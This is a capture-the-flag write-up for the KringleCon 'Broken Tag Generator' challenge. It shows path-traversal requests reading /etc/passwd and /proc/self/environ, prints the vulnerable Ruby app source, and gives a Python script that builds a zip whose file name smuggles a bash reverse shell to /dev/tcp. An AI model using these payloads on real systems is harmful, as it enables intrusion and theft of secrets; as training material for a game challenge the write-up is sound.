






Challenge 08 - Broken Tag Generator
Challenge
Difficulty: 4/5
Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in
the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for
help with this.

Solution
Recon
Step 01
Let's start with finding some info about
https://tag-generator.kringlecastle.com
root@kali:~/kringlecon20/challenges/08-broken-tag-generator# ping https://tag-generator.kringlecastle.com/
ping: https://tag-generator.kringlecastle.com/: Name or service not known
root@kali:~/kringlecon20/challenges/08-broken-tag-generator# dig @8.8.8.8 https://tag-generator.kringlecastle.com/
; <<>> DiG 9.16.8-Debian <<>> @8.8.8.8 https://tag-generator.kringlecastle.com/
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 44841
;; flags: qr rd ra ad; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: dffe19b9049e3c2e5f6a443a5ffa54852a0e11faf92a208e (good)
;; QUESTION SECTION:
;https://tag-generator.kringlecastle.com/. IN A
;; AUTHORITY SECTION:
. 600 IN SOA a.root-servers.net. nstld.verisign-grs.com. 2021010901 1800 900 604800 86400
;; Query time: 16 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Sat Jan 09 20:12:37 EST 2021
;; MSG SIZE rcvd: 172
root@kali:~/kringlecon20/challenges/08-broken-tag-generator# nmap 35.232.236.115:443 # received from browser
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 18:00 PST
Failed to resolve "35.232.236.115:443".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.13 seconds
root@kali:~/kringlecon20/challenges/08-broken-tag-generator#

Step 02
It doesn't look like we can do much from the network end. Let's try finding
the web app's directories. We can run DIRB against
https://tag-generator.kringlecastle.com/ and grab a coffee while we're waiting
for the results.
root@kali:~/kringlecon20/challenges/08-broken-tag-generator# dirb https://tag-generator.kringlecastle.com/
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Sat Jan 9 20:21:59 2021
URL_BASE: https://tag-generator.kringlecastle.com/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: https://tag-generator.kringlecastle.com/ ----
+ https://tag-generator.kringlecastle.com/clear (CODE:302|SIZE:)
+ https://tag-generator.kringlecastle.com/image (CODE:501|SIZE:80)
+ https://tag-generator.kringlecastle.com/share (CODE:501|SIZE:80)
-----------------
END_TIME: Sat Jan 9 20:35:06 2021
DOWNLOADED: 4612 - FOUND: 3
root@kali:~/kringlecon20/challenges/08-broken-tag-generator#
/clear seems to be something we can explore.
Step 03
We can also run ZAP against https://tag-generator.kringlecastle.com/ to
find directories, files, and potential vulnerabilities/weaknesses.

It looks like there's a DOM-based XSS vulnerability that could also possibly be
a directory traversal vulnerability. Additionally, it seems like the web app
uses a vulnerable jquery version (v3.3.1). Additional endpoints that
we may be interested in exploring are: /images/ and /js/app.js
Step 04
We can manually explore what we've found. Let's first look at /clear

Looks like /clear just redirects to /.
Step 05
Let's look at /images

Looks like we're not able to access the /images directory directly, but are able to GET the files within that directory.

However, the 404 message shows that /app/lib/app.rb does all the routing. After trying to GET https://tag-generator.kringlecastle.com/app/lib/app.rb we receive the same 404.
Step 06
We're also given the non-broken app's URI. Looking at both the broken and non-broken source codes, we can find a <script src="js/app.js"></script> tag that links to the web apps' js, showing that the /js/app endpoint we fuzzed is loaded in the HTML. We can then download their respective javascript source and run diff to find the differences between the broken and non-broken web apps.
root@kali:~/kringlecon20/challenges/08-broken-tag-generator/code# diff -y broken-app.js unbroken-app.js | less

There doesn't seem to be any exceptionally interesting differences besides that the broken app console.logs form and data info when using the click event for an input file. Therefore, we can use the console on the broken app to see what the form and data look like when we try to upload a file.
Step 07
Let's try uploading a file to see what happens in the console.

So it looks like uploading a file returns a POST request to /upload. The interesting thing is, the POST request returns a .png id, which is then sent to a GET request for /image?id=....png. Therefore, since the app for some reason returns an ID just to look it up, it may be possible to find other files using /image?id=
Step 08
Since we know (from the browser) that the web app is running on nginx/1.14.2 and thus is likely to be on a linux system, let's try /image?id=../../../../etc/passwd
root@kali:~/kringlecon20/challenges/08-broken-tag-generator/code# curl https://tag-generator.kringlecastle.com/image\?id\=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash
root@kali:~/kringlecon20/challenges/08-broken-tag-generator/code#
Step 09
Since directory traversal works, let's try to get the one file that we know exists:
root@kali:~/kringlecon20/challenges/08-broken-tag-generator/code# curl https://tag-generator.kringlecastle.com/image\?id\=../../../../app/lib/app.rb
# encoding: ASCII-8BIT
TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'
# Don't put the uploads in the application folder
Dir.chdir TMP_FOLDER
require 'rubygems'
require 'json'
require 'sinatra'
require 'sinatra/base'
require 'singlogger'
require 'securerandom'
require 'zip'
require 'sinatra/cookies'
require 'cgi'
require 'digest/sha1'
LOGGER = ::SingLogger.instance()
MAX_SIZE = 1024**2*5 # 5mb
# Manually escaping is annoying, but Sinatra is lightweight and doesn't have
# stuff like this built in :(
def h(html)
CGI.escapeHTML html
end
def handle_zip(filename)
LOGGER.debug("Processing #{ filename } as a zip")
out_files = []
Zip::File.open(filename) do |zip_file|
# Handle entries one by one
zip_file.each do |entry|
LOGGER.debug("Extracting #{entry.name}")
if entry.size > MAX_SIZE
raise 'File too large when extracted'
end
if entry.name().end_with?('zip')
raise 'Nested zip files are not supported!'
end
# I wonder what this will do? --Jack
# if entry.name !~ /^[a-zA-Z0-9._-]+$/
# raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
# end
# We want to extract into TMP_FOLDER
out_file = "#{ TMP_FOLDER }/#{ entry.name }"
# Extract to file or directory based on name in the archive
entry.extract(out_file) {
# If the file exists, simply overwrite
true
}
# Process it
out_files << process_file(out_file)
end
end
return out_files
end
def handle_image(filename)
out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
out_path = "#{ FINAL_FOLDER }/#{ out_filename }"
# Resize and compress in the background
Thread.new do
if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
LOGGER.error("Something went wrong with file conversion: #{ filename }")
else
LOGGER.debug("File successfully converted: #{ filename }")
end
end
# Return just the filename - we can figure that out later
return out_filename
end
def process_file(filename)
out_files = []
if filename.downcase.end_with?('zip')
# Append the list returned by handle_zip
out_files += handle_zip(filename)
elsif filename.downcase.end_with?('jpg') || filename.downcase.end_with?('jpeg') || filename.downcase.end_with?('png')
# Append the name returned by handle_image
out_files << handle_image(filename)
else
raise "Unsupported file type: #{ filename }"
end
return out_files
end
def process_files(files)
return files.map { |f| process_file(f) }.flatten()
end
module TagGenerator
class Server < Sinatra::Base
helpers Sinatra::Cookies
def initialize(*args)
super(*args)
end
configure do
if(defined?(PARAMS))
set :port, PARAMS[:port]
set :bind, PARAMS[:host]
end
set :raise_errors, false
set :show_exceptions, false
end
error do
return 501, erb(:error, :locals => { message: "Error in #{ __FILE__ }: #{ h(env['sinatra.error'].message) }" })
end
not_found do
return 404, erb(:error, :locals => { message: "Error in #{ __FILE__ }: Route not found" })
end
get '/' do
erb(:index)
end
post '/upload' do
images = []
images += process_files(params['my_file'].map { |p| p['tempfile'].path })
images.sort!()
images.uniq!()
content_type :json
images.to_json
end
get '/clear' do
cookies.delete(:images)
redirect '/'
end
get '/image' do
if !params['id']
raise 'ID is missing!'
end
# Validation is boring! --Jack
# if params['id'] !~ /^[a-zA-Z0-9._-]+$/
# return 400, 'Invalid id! id may contain letters, numbers, period, underscore, and hyphen'
# end
content_type 'image/jpeg'
filename = "#{ FINAL_FOLDER }/#{ params['id'] }"
if File.exists?(filename)
return File.read(filename)
else
return 404, "Image not found!"
end
end
get '/share' do
if !params['id']
raise 'ID is missing!'
end
filename = "#{ FINAL_FOLDER }/#{ params['id'] }.png"
if File.exists?(filename)
erb(:share, :locals => { id: params['id'] })
else
return 404, "Image not found!"
end
end
post '/save' do
payload = params
payload = JSON.parse(request.body.read)
data_url = payload['dataURL']
png = Base64.decode64(data_url['data:image/png;base64,'.length .. -1])
out_hash = Digest::SHA1.hexdigest png
out_filename = "#{ out_hash }.png"
out_path = "#{ FINAL_FOLDER }/#{ out_filename }"
LOGGER.debug("output: #{out_path}")
File.open(out_path, 'wb') { |f| f.write(png) }
{ id: out_hash }.to_json
end
end
end
Weaponization
Step 10
Looks like if we upload a .zip (handle_zip), the web app will extract the .zip and save each file in the archive to TMP_FOLDER/file, where TMP_FOLDER is /tmp. Each file's name is unescaped, courtesy of Jack Frost. Each file is then sent to process_file. Sounds like a zipslip vulnerability.
In other words, we should be able to do RCE if the extracted value calls a command (e.g. /tmp/; <RCE here>). Therefore, let's create a zipfile that contains a file with a reverse shell name.
root@kali:~/kringlecon20/challenges/08-broken-tag-generator# python3 code/weaponize.py
# weaponize.py
ip_address = '127.0.0.1' # currently on localhost, change when needed
port = '1337'
# bash reverse shell
rs = "/bin/bash -i 1>& /dev/tcp/" + ip_address + "/" + port + " 0>&1"
filename = "'; " + rs + "; 'foo.png"
with zp.ZipFile('payloads/rce.zip', 'w') as z:
z.writestr(filename, 'poop')
Delivery
Step 11
Let's spin up a netcat listener for port 1337 on our VM
root@kali:~/kringlecon20/challenges/08-broken-tag-generator# nc -nvlp 1337
And upload the payload through the web app and wait for the code to execute.
After hours of debugging, it turns out that I can't make connections back to my attacking machine. Since I disabled all the firewalls and the reverse shell works when tested on an LAN, the connection issue is probably due to my router configuration blocking specific incoming connections.
Step 12
Let's try an LFI approach instead of the RCE approach above and thus do some directory traversal.
According to Alex North-Keys & Gautam Chibde, processes can view environment variables via ps or via looking a /proc/*/environ. Since we can only use curl to view files, /proc/*/environ may be the best way to approach this.
Using this site from linux.com as a guideline to /proc:
root@kali:~/kringlecon20/challenges/08-broken-tag-generator/# curl https://tag-generator.kringlecastle.com/image\?id\=../../../../proc/cmdline
BOOT_IMAGE=/boot/vmlinuz-4.19.0-13-cloud-amd64 root=UUID=27007375-5b74-4fcf-afc6-962faabdffb7 ro console=tty0 console=ttyS0,115200 earlyprintk=ttyS0,115200 scsi_mod.use_blk_mq=Y
root@kali:~/kringlecon20/challenges/08-broken-tag-generator/# curl https://tag-generator.kringlecastle.com/image\?id\=../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
Flag
JackFrostWasHere